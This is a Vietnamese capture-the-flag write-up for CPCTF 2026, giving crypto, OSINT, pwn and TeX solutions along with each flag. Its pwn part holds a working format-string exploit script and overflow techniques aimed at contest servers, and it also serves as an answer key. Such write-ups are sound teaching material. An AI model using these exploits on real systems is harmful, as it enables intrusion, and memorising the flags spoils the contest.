

> Flag: CPCTF{8ury_0n35_h34d_1n_7h3_54nd80x}

---

## CPCTF jail (Level 3)

CPCTF以外の文字は見たくありません！  
`password:cpctf2026`

---

Thử thách đưa ta vào một môi trường Restricted Shell (PyJail/Bash Jail) với luật chơi khắt khe: độ dài lệnh không được vượt quá 10 ký tự và tập ký tự cho phép chỉ bao gồm các chữ cái `c`, `p`, `t`, `f`. Thực hiện lệnh hợp lệ để thoát khỏi sandbox và đọc flag



> Flag: CPCTF{Y0ur3_4_7ru3_CPCTF_l0v3r}
---

# Crypto 
## Dualcast (Level 1)

文なのに数字なんだけど、どういうこと！？

---

```python
from Crypto.Util.number import long_to_bytes

c = 510812092313572375684202062709941424740135938555245927502061365582594139087652994941
flag = long_to_bytes(c).decode()
print(flag)
```



>Flag: CPCTF{wh47_7yp3_15_y0ur_477r1bu73?}
---

## Very Exciting (Level 2)

ワクワクする乱数をあなたにも使わせてあげます。  
`nc 133.88.122.244 32007`

---

Server sử dụng hàm `stream_excite` để “mã hóa” dữ liệu bằng cách XOR plaintext với một keystream sinh ra từ `BoringRandom`

```python
def stream_excite(pksg, data: bytes) -> bytes:
    keystream = b""

    while len(keystream) < len(data):
        keystream += pksg.nextrand()

    return bytes([a ^ b for a, b in zip(data, keystream)])
```

Tức là cơ chế mã hóa là:
$$
C = P \oplus KS
$$
Trong đó `KS` là keystream được sinh từ:
- `secret_key` bí mật
- `iv` truyền vào khi khởi tạo `BoringRandom`

Trong `main`, server thực hiện hai việc quan trọng:
1. Tạo `exciting_flag` bằng cách mã hóa flag thật với `secret_key` ngẫu nhiên và `exciting_iv` ngẫu nhiên.
2. Sau đó cho người chơi quyền gửi:
    - một plaintext tùy ý `your_favorite`
    - một IV tùy ý `very_exciting_iv`
và server sẽ mã hóa plaintext đó bằng **cùng `secret_key`**

```python
from pwn import remote
from binascii import unhexlify

HOST = "133.88.122.244"
PORT = 32007

r = remote(HOST, PORT)

line1 = r.recvline().decode().strip()
exciting_iv = line1.split(": ")[1]

r.recvuntil(b"=> ")
exciting_flag = r.recvline().decode().strip()

zero_plain = "00" * (len(exciting_flag) // 2)

r.recvuntil(b"Enter your boring 'favorite' (Hex): ")
r.sendline(zero_plain.encode())

r.recvuntil(b"Enter your own 'very_exciting' IV (Hex): ")
r.sendline(exciting_iv.encode())

r.recvuntil(b"=> ")
keystream = r.recvline().decode().strip()

flag = bytes(a ^ b for a, b in zip(unhexlify(exciting_flag), unhexlify(keystream)))
print(flag.decode(errors="replace"))

r.close()
```



>Flag: CPCTF{SAMe_01d_STReam_1s_A1WaYs_b0r1ng}
---

## 1, 0, 7 (Level 3)

視認性の良い(?)Nをお届けします。RSA暗号を解いてみてください。

---
  
Đặt:  
$$  
R = 111\ldots111 = \frac{10^{317}-1}{9}  
$$
Khi đó:  
$$  
7R = 777\ldots777  
$$
Và vì khối giữa có `95` chữ số `0`, nên ta có:  
$$  
N = R \cdot (10^{317+95} + 7)  
$$
hay: 
$$  
N = \left(\frac{10^{317}-1}{9}\right)(10^{412}+7)  
$$
Suy ra:  
$$  
p = \frac{10^{317}-1}{9}, \qquad q = 10^{412}+7  
$$
Mình tiến hành khôi phục khóa bí mật
Sau khi phân tích được:  
$$  
N = pq  
$$
ta tính:  
$$  
\varphi(N) = (p-1)(q-1)  
$$
Với `e = 65537`, tính:  
$$  
d \equiv e^{-1} \pmod{\varphi(N)}  
$$
Tiếp đên là giải mã  
Bản rõ được tính bằng:  
$$  
m = c^d \bmod N  
$$
Sau đó chuyển `m` sang hex rồi sang bytes để lấy flag.

```python
N = int("111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111110000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000077777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777")
e = 65537
c = 24843637357401882323446973756028112485787496266605121365114610100704976130139741775294278368083885062198910614947919701406960107347354136102083123762522563111468269091870174521712246171376836840432255040039220296948193266921702699341919800731671378599220251932387731543800016339125706640050863673217753733950003925236014913643596976803633793469056544830856356906877796834342590774214214984186572346186348406049348500029472048880777893019592044554103952675917537653629499365661200893824071688347597515583518961750064206790440539820055665939394772896875086157476469036827442358013160609933570806379028553689444972004391787853021463769839240033616969091368964549902197048529690707775841641688773013075774663922475980270327652933542

n1 = 317
zeros = 95

p = (10**n1 - 1) // 9
q = 10**(n1 + zeros) + 7

assert p * q == N

phi = (p - 1) * (q - 1)
d = pow(e, -1, phi)
m = pow(c, d, N)

flag = bytes.fromhex(hex(m)[2:]).decode()
print(flag)
```



>Flag: CPCTF{N_1s_34sy_70_bRe4k_873b4982a}
---

## Anomaly 2 (Level 3)

あの大人気問題がいろいろ2倍になって再登場！

---

  
Hàm `rsa_encryption` triển khai sai công thức RSA.  
Thay vì mã hóa theo dạng chuẩn:  
$$  
c = m^e \bmod n  
$$
chương trình lại tính:  
$$  
c = n^e \bmod m  
$$
trong đó `m` là số nguyên thu được từ flag.  
Điều này làm cho `c` không còn là ciphertext RSA đúng nghĩa, mà chỉ là phần dư của `n^e` khi chia cho `m`.  
  
Từ định nghĩa modulo, nếu:  
$$  
c_1 = n_1^{e_1} \bmod m  
$$
thì tồn tại một số nguyên sao cho: $$
n_1^{e_1} - c_1  
$$ chia hết cho `m`.  
  
Nói cách khác:  
$$  
m \mid (n_1^{e_1} - c_1)  
$$
Tương tự với bộ dữ liệu thứ hai:  
$$  
m \mid (n_2^{e_2} - c_2)  
$$
Vì `m` cùng chia hết cho cả hai biểu thức trên, nên `m` sẽ chia hết cho ước chung lớn nhất của chúng:  
$$  
m \mid \gcd(n_1^{e_1} - c_1,\; n_2^{e_2} - c_2)  
$$
Do đó chỉ cần lấy GCD của hai giá trị này là có thể khôi phục được `m`  
Trong đề, cả hai lần đều có:  
$$  
e_1 = e_2 = 3  
$$
nên ta xét:  
$$  
\gcd(n_1^3 - c_1,\; n_2^3 - c_2)  
$$
Kết quả nhận được không phải đúng bằng `m`, mà là một bội nhỏ của `m`, cụ thể là:  
$$  
\gcd(n_1^3 - c_1,\; n_2^3 - c_2) = 2m  
$$
Vì vậy chỉ cần chia thêm cho `2` là thu lại được giá trị thật của bản rõ:  
$$  
m = \frac{\gcd(n_1^3 - c_1,\; n_2^3 - c_2)}{2}  
$$
Sau khi tìm được `m`, chỉ việc đổi số nguyên đó sang bytes rồi decode thành chuỗi là lấy được flag.  
  
```python
from math import gcd
def long_to_bytes(n: int) -> bytes:
    return n.to_bytes((n.bit_length() + 7) // 8, "big")

n1 = 87405182736104359780257026883853062930574663561980633775939752446259523158955808889602775147349422181286752422777444540409043705137242444906859982710084376976995577762838755152310969883588687143185855446868518299103284219288298089004723615989669846760852206531362806473299208237879292642911953181354015637739
e1 = 3
c1 = 5947050188011198882167638654472754073461946759644146614025932625290616486683809

n2 = 89984079446277129336031962353513290766726794253576464892005498900113523905864088594103793620450760604852463679010581777863799208215048737093285826288578917592161127386371969728330753862369184707806787782705755694366125100020912792307994059926523686129099696784648345246590104006734129991238410853485925459399
e2 = 3
c2 = 1469764391126334007675223493311131828227376713240295689831327636992622204657369

g = gcd(n1**e1 - c1, n2**e2 - c2)
m = g // 2

print(long_to_bytes(m).decode())
```


>Flag: CPCTF{7h3_n3x7_574710n_15_Kukud0}
---

## Janken Master (Level 3)

みんなでじゃんけん！  
`nc 133.88.122.244 32212`

---

Server dùng `xoroshiro128+` để sinh lựa chọn cho `99` NPC từ một `seed` do người chơi nhập. Trước khi khởi tạo PRNG, server biến đổi seed theo công thức:  
$$  
\text{seed}' = \text{seed} \oplus 0x1234567890abcdef1234567890abcdef  
$$
Sau đó trạng thái nội bộ của `xoroshiro128+` được tách thành hai word 64-bit:  
$$  
(s_0, s_1)  
$$
Điểm quan trọng là `xoroshiro128+` **không được phép khởi tạo với trạng thái toàn 0**. Nếu:  
$$  
s_0 = 0,\quad s_1 = 0  
$$
thì mỗi lần gọi bộ sinh số ngẫu nhiên sẽ luôn cho ra `0`, và trạng thái vẫn mãi là `(0,0)`.  
  
Ta chọn input sao cho sau phép XOR của server, seed trở thành **0**
Nói cách khác, chỉ cần nhập đúng:  $$  
\text{seed} = 0x1234567890abcdef1234567890abcdef  
$$  thì:  
$$  
\text{seed}' = 0  
$$
Khi đó PRNG được khởi tạo với trạng thái toàn 0.  
  
Với trạng thái `(0,0)`, mọi lần gọi `next()` đều trả về `0`, nên:  
$$  
\text{rng.next()} \bmod 3 = 0  
$$
cho tất cả NPC.  
  
Điều đó có nghĩa là cả `99` NPC đều luôn chọn:  
0 = {Rock}  

Luật server cho flag nếu người chơi là **sole winner**, tức là người thắng duy nhất.
Vì toàn bộ NPC đều ra `Rock`, ta chỉ cần chọn:  
2 = {Paper}  

Khi đó chỉ xuất hiện hai loại tay trong ván:  
- NPC: Rock  
- Player: Paper  
  
Paper thắng Rock, và không có NPC nào cùng chọn Paper, nên số người thắng là đúng `1`.  
Do đó người chơi trở thành **SOLE winner** và lấy được flag.  
  
Input cần nhập:
Giá trị seed:  
$$  
0x1234567890abcdef1234567890abcdef  
$$
Sau đó chọn tay:  2 

```python
from pwn import remote

HOST = "133.88.122.244"
PORT = 32212

seed = "24197857200151252728969465429440056815"  # 0x1234567890abcdef1234567890abcdef
hand = "2"  # Paper

r = remote(HOST, PORT)

r.recvuntil(b"Enter your lucky number (seed): ")
r.sendline(seed.encode())

r.recvuntil(b"Your hand (0-2): ")
r.sendline(hand.encode())

print(r.recvall().decode())
```


>Flag: CPCTF{M45TER_of_riGGed_d1Ce}
---

## Bitwise Scrumble (Level 4)

encrypted_flag : 10aa77170b38758c146245779086332e5e8237430f362d317310124333b999b890043152135

---

Chương trình thực hiện các bước sau:  
- đổi `flag` thành số nguyên bằng `bytes_to_long(flag.encode())`  
- đổi số nguyên đó thành chuỗi thập phân dài đúng `75` chữ số  
- chia chuỗi này thành `3` phần, mỗi phần dài `25` chữ số  
- với từng vị trí, lấy một chữ số của bản rõ và một chữ số của `key` để thực hiện phép toán bitwise  
  
Ba biểu thức được dùng là:  
$$  
((f \mid k) \& (f \oplus k))  
$$
$$  
((s \& k) \oplus (s \mid k))  
$$
$$  
t \oplus ((t \mid k) \& k)  
$$
Trong đó `f, s, t, k` đều là các số nguyên từ `0` đến `9`
  
Hint cho biết các phép toán là độc lập trên từng bit, nên chỉ cần xét bảng chân trị theo từng bit.
Biểu thức thứ nhất  
$$  
(a \mid b)\&(a\oplus b)  
$$
Biểu thức này rút gọn thành:  
$$  
a \oplus b  
$$
Biểu thức thứ hai $$  
(a\&b)\oplus(a\mid b)  
$$ Biểu thức này cũng rút gọn thành:$$  
a \oplus b  
$$Biểu thức thứ ba  
  Ta có:  
$$  
(a\mid b)\&b=b  
$$
nên:  
$$  
a \oplus ((a\mid b)\&b)=a\oplus b  
$$
Vì vậy, cả ba phép biến đổi trong chương trình thực chất đều chỉ là:  
$$  
\text{digit} \oplus \text{key digit}  
$$
Do `key` được công khai, nên mỗi ký tự của `encrypted_flag` chỉ là kết quả của phép XOR giữa:  
- một chữ số gốc của chuỗi thập phân  
- và chữ số tương ứng của `key`  
  
Vì thế ta chỉ cần XOR ngược lại với `key` để khôi phục toàn bộ chuỗi thập phân ban đầu.  
Sau khi đảo ngược, ta thu được ba block:  

```text
1189327082395485930706569  
0940778261225539740790363  
1131065430989999835411325  
```
  
Ghép lại thành số thập phân:  

```text
`118932708239548593070656909407782612255397407903631131065430989999835411325`  
```
  
Đây chính là giá trị của:  
$$  
\mathrm{bytes\_to\_long}(\text{flag.encode()})  
$$
Nên chỉ cần đổi số nguyên đó ngược lại thành bytes là lấy được flag.

```python
def long_to_bytes(n: int) -> bytes:
    return n.to_bytes((n.bit_length() + 7) // 8, "big")

enc = "10aa77170b38758c146245779086332e5e8237430f362d317310124333b999b890043152135"
key = "0123456789012109876543210"

parts = [enc[:25], enc[25:50], enc[50:75]]

plain_parts = []
for part in parts:
    cur = ""
    for i, ch in enumerate(part):
        x = int(ch, 16)
        k = int(key[i])
        cur += str(x ^ k)
    plain_parts.append(cur)

num = int("".join(plain_parts))
print(long_to_bytes(num).decode())
```


>Flag: CPCTF{B1twis3_r0t4t10n!_3tim3s}
---

# OSINT

## IRIS OUT (Level 2)

第76回NHK紅白歌合戦に於いて米津玄師が披露した"IRIS OUT"のパフォーマンスの最後に出てくる白い円柱の段の中心の位置を答えよ。 答えは北緯と東経を10進法で表し、1000倍して四捨五入で整数値にしたうえ、`CPCTF{緯度の値_経度の値}`の形式で答えよ。

---

Đề bài yêu cầu xác định tọa độ tâm của bục hình trụ màu trắng xuất hiện ở cuối phần trình diễn ca khúc "IRIS OUT" của Kenshi Yonezu tại chương trình NHK Kohaku Uta Gassen lần thứ 76. Tọa độ được tính theo vĩ độ và kinh độ dạng số thập phân, nhân với 1000 và làm tròn đến hàng đơn vị: `CPCTF{vĩ_độ_kinh_độ}`.

Từ các thông tin trong phần mô tả:
- MV/Tiết mục: IRIS OUT
- Nghệ sĩ: Kenshi Yonezu
- Sự kiện: NHK Kohaku Uta Gassen lần thứ 76

Tìm kiếm thông tin hậu trường của buổi biểu diễn, ta biết bối cảnh sân khấu được dựng trên tuyến đường cao tốc trên cao **Tokyo Expressway** (KK Line) tại khu vực Ginza/Shibuya, Tokyo


Sử dụng Google Maps để định vị đoạn tuyến đường cao tốc này


Tiếp theo, ta cần xác định vị trí chính xác của bục trụ màu trắng nơi ca sĩ đứng biểu diễn. Trong một phân cảnh của video, phía sau bục xuất hiện một tòa nhà nổi bật là **Karaoke Kan Ginza Honten**


Nhờ mốc tòa nhà này, phạm vi tìm kiếm trên tuyến đường cao tốc được thu hẹp đáng kể


Quan sát phân đoạn đầu tiết mục, ca sĩ bắt đầu di chuyển từ một trạm kiểm soát giao thông có vạch kẻ mũi tên


Trong video, ca sĩ ngồi trên mô hình cá mập di chuyển về phía trước. Ở phân cảnh toàn cảnh nhìn từ trên cao, bên cạnh bục trụ là một tòa nhà có kiến trúc đường sọc ngang đặc trưng


Để đạt độ chính xác đến chữ số thập phân thứ ba, ta cần xác định điểm mốc chi tiết hơn. Ở góc quay cận mặt ca sĩ, phía hậu cảnh xuất hiện một trạm quan sát có mái che màu trắng


Đối chiếu trên bản đồ vệ tinh, vị trí đối diện tòa nhà vừa tìm thấy chính là trạm quan sát có mái che tương tự


Tổng hợp tất cả các hướng nhìn và góc giao cắt, ta xác định được vị trí tọa độ chính xác của tâm bục trụ


- Vĩ độ: $35.674\dots \times 1000 \approx 35674$
- Kinh độ: $139.765\dots \times 1000 \approx 139765$

> Flag: CPCTF{35674_139765}

---

## Night View (Level 3)

[この写真](https://files.cpctf.space/Night_View/chal_55e58f3b2fb358e0733204a6acc7545150a321a5133281f89250094f28be5e82.jpg)がどこで撮影されたものか特定してください。  
ただし、ただし、次のフラグ形式で解答してください: `CPCTF{(この建物のOpenStreetMapでのway id)}`  
例えば、この建物が東京科学大学大岡山キャンパス内の建物 Hisao & Hiroko Taki Plazaだと考えた場合、way ID は 717825414 なので、フラグは `CPCTF{717825414}` となります。  

なお、この問題の減点ラインは**10回**です。

---

Đề bài cung cấp một bức ảnh chụp cảnh đêm đô thị tại Nhật Bản và yêu cầu tìm `way ID` trên OpenStreetMap của tòa nhà nơi chụp bức ảnh.

Quan sát hậu cảnh bức ảnh, ta thấy một cây cầu dây văng lớn bắc qua vịnh. Đây là mốc định danh quan trọng nhất để khoanh vùng địa lý


Tìm kiếm hình ảnh bằng Google Reverse Image Search xác nhận đây là cầu Cầu Vồng (**Rainbow Bridge**) nổi tiếng tại Vịnh Tokyo


Tiếp theo, ta cần xác định góc chụp nằm ở bờ bên nào của vịnh. Trong bức ảnh, nhánh cầu cong hình tròn (loop ramp) nằm ở phía bên phải tầm nhìn, chứng tỏ vị trí chụp ảnh nằm ở bờ phía Tây / Tây Bắc (hướng nhìn về phía Odaiba)


Ở góc tiền cảnh phía dưới của bức ảnh xuất hiện một con kênh/sông nhỏ và một cây cầu đường bộ bắc ngang qua, giúp ta khoanh vùng dải bờ ven kênh


Sử dụng Google Earth 3D để rà soát khu vực này nhằm nhận diện hai tòa nhà công nghiệp nổi bật nhìn thấy trong ảnh: trụ sở **Igarashi Reizo Co., Ltd.** và **THK Co., Ltd.**


Dựa trên đường ngắm nối giữa hai tòa nhà này về phía cây cầu, ta thiết lập được vector góc nhìn chính xác của vị trí chụp


Tiếp tục đối chiếu tòa nhà nằm ngay đối diện cận cảnh vị trí chụp, ta xác định được đó là tòa nhà **Field Serve Japan (㈱フィールドサーブジャパン)**


Góc chụp có độ cao vượt trội so với tòa nhà đối diện, do đó vị trí chụp phải là một tòa nhà cao tầng nằm ngay phía sau. Khảo sát thực địa cho thấy có 2 tòa nhà cao tầng khả năng


Trong bức ảnh gốc, ta nhìn thấy rõ mặt hông bên trái của tòa nhà Field Serve Japan, trong khi tòa nhà bên trái lại nằm đối diện trực diện song song. Suy luận hình học cho thấy vị trí chụp bắt buộc phải nằm ở tòa nhà cao tầng phía bên phải.

Sau khi xác định chính xác tòa nhà trên bản đồ, truy cập [OpenStreetMap](https://www.openstreetmap.org/#map=19/35.645284/139.750586) và tra cứu đối tượng để lấy `way ID`


> Flag: CPCTF{333413426}
---
# PWN

## Killionaire (Level 1)

賭けをしよう。  

※この問題には`nc`コマンドを使用することで接続できます。下の「問題の起動」ボタンを押して表示されたコマンドを実行し、問題に接続してください。

---

Chương trình khởi tạo:  
- `coins = 1`  
- có tối đa `10` round  
- mục tiêu là đạt ít nhất `1000` coins để in flag  
  
Ở mỗi round, người chơi nhập `bet`, sau đó chương trình kiểm tra:  
$$  
\text{if } bet > coins \text{ then invalid}  
$$
Điểm yếu là điều kiện này **chỉ chặn trường hợp cược lớn hơn số tiền đang có**, nhưng **không chặn số âm**.  
  
Vì vậy, ta có thể nhập:  
$$  
bet < 0  
$$  
mà vẫn vượt qua kiểm tra.  
  
Phân tích hai nhánh  
Sau khi qua phần kiểm tra, game có hai khả năng.  
  
Nhánh `SUCCESS`  
Khi đó:  
$$  
gain = \frac{bet \cdot (rand \bmod 301)}{100}  
$$
và:  
$$  
coins = coins + gain  
$$  
Nếu `bet` là số âm thì `gain` cũng sẽ là số âm hoặc bằng `0`, nên nhánh này không giúp tăng tiền.  
  
Nhánh `FAILURE`  
Khi đó chương trình thực hiện:  
$$  
coins = coins - bet  
$$
Đây là chỗ quan trọng nhất.  
Nếu `bet` âm, ví dụ:  
$$  
bet = -1000  
$$
thì:  
$$  
coins = coins - (-1000) = coins + 1000  
$$
tức là **thua lại làm số tiền tăng lên**.  
  
Ban đầu:  
$$  
coins = 1  
$$
Mình nhập: 
$$  
bet = -1000  
$$ 
vì: 
$$  
-1000 > 1  
$$
là sai, nên chương trình chấp nhận  
  


>Flag: CPCTF{n3g4t1v3_v41u3_1s_m0re_p0w3rfu1_th4n_p0s1tiv3_va1u3}
---

## Buffer Visualizer (Level 2)

隣のあいつを書き換えよう！

---

**overflow từ `buffer` sang `target`**

Trong struct:

```c
struct Task {  
    char buffer[16];  
    char target[8];  
};
```

`buffer` nằm ngay trước `target` trong bộ nhớ. Chương trình lại đọc tới `32` byte vào `buffer[16]`

```c
read(0, t.buffer, 32);
```

nên nếu nhập quá `16` byte, phần dư sẽ ghi đè lên `target`.

Mục tiêu là để:

```c
strcmp(t.target, "ADMIN") == 0
```

thành đúng. Vì `target` dài 8 byte, còn `"ADMIN"` cần cả byte `\0` ở cuối, nên ta cần ghi:
- 16 byte đầu: rác bất kỳ để lấp `buffer`


>Flag: CPCTF{y0u_4r3_PWN_h4ck3r}
---

## campaign (Level 3)

何かの懸賞に当たったみたいです！

---

  
Chương trình cho người dùng nhập tên và số điện thoại, sau đó in lại thông tin bằng 

```c
printf(name);  
```

Đây là **format string vulnerability** vì dữ liệu người dùng được truyền trực tiếp làm format string cho `printf`.  
  
Ngoài ra, chương trình có biến toàn cục

```c
char type[] = "ai";  
```
  
và chỉ in flag nếu điều kiện sau đúng

```c
strcmp(type, "human") == 0  
```

Vì vậy mục tiêu của ta là dùng lỗ hổng format string để ghi đè giá trị của `type` từ `"ai"` thành `"human"`.   
  
Format string vulnerability cho phép dùng các định dạng như `%n`, `%hn`, `%hhn` để ghi số ký tự đã in ra vào một địa chỉ tùy ý.  
Ta lợi dụng điều này để ghi trực tiếp vào vùng nhớ của biến `type`
Trong binary, `type` nằm tại địa chỉ
$$  
0x404050  
$$
  
Ta cần biến vùng nhớ bắt đầu từ địa chỉ này thành

```text
human  
```

Hay chính xác hơn là các byte:  
- `h` tại `0x404050`  
- `u` tại `0x404051`  
- `m` tại `0x404052`  
- `a` tại `0x404053`  
- `n` tại `0x404054`  
  
Thay vì ghi từng byte một, ta chia chuỗi `human` thành ba phần:  
- `n` ghi vào `type+4`  
- `ma` ghi vào `type+2`  
- `hu` ghi vào `type`  
  
Theo little-endian:  
$$  
\text{"hu"} = 0x7568  
$$
$$  
\text{"ma"} = 0x616d  
$$
$$  
\text{"n"} = 0x6e  
$$
Ta sắp xếp theo thứ tự giá trị tăng dần để dễ điều khiển số ký tự đã in:  
1. `0x6e = 110`  
2. `0x616d = 24941`  
3. `0x7568 = 30056`  
  
Khi đó có thể dùng:  
- `%hhn` để ghi `1` byte  
- `%hn` để ghi `2` byte  
  
Offset trên stack  
Các địa chỉ đích không nằm sẵn trong tham số của `printf`, nên ta phải đặt chúng ở cuối input
  
Sau khi căn chỉnh đúng độ dài chuỗi format, ba địa chỉ này sẽ tương ứng với các đối số
- đối số `13` → `type+4`  
- đối số `14` → `type+2`  
- đối số `15` → `type`  
  
Việc đệm thêm vài byte trước phần địa chỉ là để các địa chỉ này rơi đúng vào đúng vị trí stack mà `%13$...`, `%14$...`, `%15$...` sẽ sử dụng
  
Cơ chế hoạt động của payload  
Payload được thiết kế để
- in đủ `110` ký tự rồi ghi `0x6e` vào `type+4`, tức ký tự `n`  
- tiếp tục tăng tổng số ký tự đã in lên `24941`, rồi ghi `0x616d` vào `type+2`, tức `ma`  
- tiếp tục tăng lên `30056`, rồi ghi `0x7568` vào `type`, tức `hu`  
  
Sau ba lần ghi, vùng nhớ tại `type` trở thành

```text
human  
```
  
Khi đó điều kiện

```c
strcmp(type, "human") == 0  
```

trả về đúng, và chương trình in flag.

```python
import socket
import struct

host = "133.88.122.244"
port = 32437

fmt = b'%110c%13$hhn%24831c%14$hn%5115c%15$hn'
fmt += b'AAA'
payload = fmt
payload += struct.pack("<Q", 0x404054)
payload += struct.pack("<Q", 0x404052)
payload += struct.pack("<Q", 0x404050)

s = socket.socket()
s.connect((host, port))

data = s.recv(4096)
print(data.decode(errors="ignore"), end="")

s.sendall(payload + b"\n")
data = s.recv(4096)
print(data.decode(errors="ignore"), end="")

s.sendall(b"1\n")

out = b""
while True:
    chunk = s.recv(4096)
    if not chunk:
        break
    out += chunk

print(out.decode(errors="ignore"))
s.close()
```


>Flag: CPCTF{b3_c4r3fu1_0f_ph15h1ng_m3s54g3s}
---

## coding agent (Level 4)

新しいコーディングエージェントを作ってみました！

---

Dịch vụ cung cấp một ứng dụng coding agent tương tác bằng C. Khi kiểm tra cách thức xử lý chuỗi đầu vào trong binary, chương trình sử dụng hàm `scanf("%s", buffer)` để đọc input từ người dùng mà không chỉ định kích thước tối đa của buffer.

Việc thiếu kiểm tra biên dẫn đến lỗ hổng tràn bộ đệm trên stack (Stack-based Buffer Overflow). Khai thác bằng cách gửi payload có độ dài vượt quá dung lượng buffer để ghi đè biến điều khiển luồng thực thi và trích xuất flag:

> Flag: CPCTF{u53_sc4nf_w17h_s1z3_0f_buFf3r5}

---

# MISC

## Sanity Check (Level 1)

CPCTF 2026にようこそ！  
flagは [discord](https://discord.gg/6Sxc9ACvXA) のannoucementにあります。

---

Truy cập kênh announcement trên máy chủ Discord chính thức của giải đấu để nhận flag khởi động


> Flag: CPCTF{W3lc0m3_t0_CPCTF_2026}

---

## Feedback Survey (Level 1)

参加者向けアンケートにご協力ください！

---

Hoàn thành biểu mẫu khảo sát ý kiến đóng góp cho ban tổ chức sau giải đấu để nhận flag


> Flag: CPCTF{th4nk_y0u_for_p1aying}

---

## Hello LaTeX3!!! (Level 3)

文書作成ソフトウェアであるLaTeXには、LaTeX3という次世代プロジェクトが存在しました。  
結果的にLaTeX3は、3段階のレイヤーに分割され、それぞれが現在のLaTeX(LaTeX2e)に統合されつつあります。  
その中で、プログラミングレイヤーであるexpl3は、非常に厳格な命名規則を持っています。  
次に提示するファイルはexpl3によるコードの例ですが、一つだけ命令名が抜けています(???となっています)

???に相当する命令を補完してください。

flagは???に相当する命令名をそのまま入れてください。(CPCTF{???}の形式)

---

Phân tích file `.tex` được cung cấp, ta thấy khai báo biến:

```latex
\seq_new:N \l_my_char_code_seq  
```

Khai báo này xác định `\l_my_char_code_seq` là một biến kiểu **sequence** (danh sách tuần tự) trong hệ thống `expl3`.

Tiếp theo, chương trình định nghĩa hàm xử lý:

```latex
\cs_new_protected:Npn \my_convert_clist_to_string:n #1  
{  
\???:Nn \l_my_char_code_seq { #1 }  
...  
}  
```

Ở đây, đối số `#1` là dữ liệu đầu vào. Dựa vào cấu trúc sử dụng phía sau, `#1` là một danh sách các giá trị phân tách bằng dấu phẩy (**comma list** hay `clist`).

Ngay sau vị trí `???`, chương trình gọi:

```latex
\seq_map_inline:Nn \l_my_char_code_seq  
```

Lệnh này dùng để duyệt qua từng phần tử của biến `\l_my_char_code_seq`. Điều này đòi hỏi lệnh ở vị trí `???` phải có chức năng chuyển đổi dữ liệu từ comma list trong `#1` thành một sequence và gán vào `\l_my_char_code_seq`.

Theo quy ước đặt tên nghiêm ngặt của `expl3`:
- Đối tượng tác động: `seq`
- Hành động: `set`
- Nguồn chuyển đổi: `from_clist`
- Chữ ký đối số (argument signature): `:Nn` (nhận 1 biến con trỏ `N` và 1 khối giá trị `n`)

Ghép lại theo đúng quy ước, lệnh chính xác là:

```latex
\seq_set_from_clist:Nn  
```

Dòng mã hoàn chỉnh:

```latex
\seq_set_from_clist:Nn \l_my_char_code_seq { #1 }  
```

Tên lệnh cần điền vào flag là: `seq_set_from_clist`.

> Flag: CPCTF{seq_set_from_clist}

---

## Damaged Report (Level 4)

我々の協力者、コードネーム"K"から緊急の報告書が届いた。彼は筋金入りのTeX愛好家で、通信には必ず彼独自のTeXフォーマットファイルを使用する。

[https://hub.docker.com/r/kininakuni/atexoder](https://hub.docker.com/r/kininakuni/atexoder)

---

Kéo Docker image của môi trường thử thách về máy


Nạp file định dạng TeX format


Thử thách cung cấp một file định dạng TeX đã biên dịch sẵn `.fmt` thay vì mã nguồn `.tex` thông thường.  
Điểm mấu chốt nằm ở chỗ:
- Ký tự `a` và `g` đã bị thay đổi **Category Code (catcode)** sang giá trị `13` (active character).
- Do đó, ta không thể gọi trực tiếp macro:

```tex
\flag  
```

Lý do là khi TeX xử lý chuỗi `\flag`, do `a` và `g` là các active character đặc biệt, trình phân tích token của TeX sẽ phân rã nó thành token control sequence `\fl`, theo sau là ký tự active `a` và ký tự active `g`, khiến việc truy xuất `\flag` thất bại.

Kiểm tra nội dung tệp `.fmt`, ta phát hiện chuỗi định danh `help`. Sử dụng lệnh nguyên thủy (primitive) của TeX:

```tex
\show\help  
```

Lệnh `\show` không thực thi macro mà in ra định nghĩa bên trong của control sequence tương ứng. Kết quả cho thấy `\help` chính là một alias (bí danh) trỏ trực tiếp đến macro in flag.

Vì từ khóa `\help` hoàn toàn không chứa hai ký tự bị cấm `a` và `g`, ta có thể gọi trực tiếp:

```tex
\help  
```

Lệnh thực thi thành công và hiển thị cờ


> Flag: CPCTF{h4ve4G0oDTeXlif3}
---

# WEB

## mirage (Level 1)

正しいフラグをコピペしよう！

[https://mirage.web.cpctf.space/](https://mirage.web.cpctf.space/)

---

Trang web hiển thị một chuỗi ký tự trông giống hệt format flag, nhưng khi người dùng sao chép thì hệ thống thông báo đó chỉ là dummy flag (cờ giả).

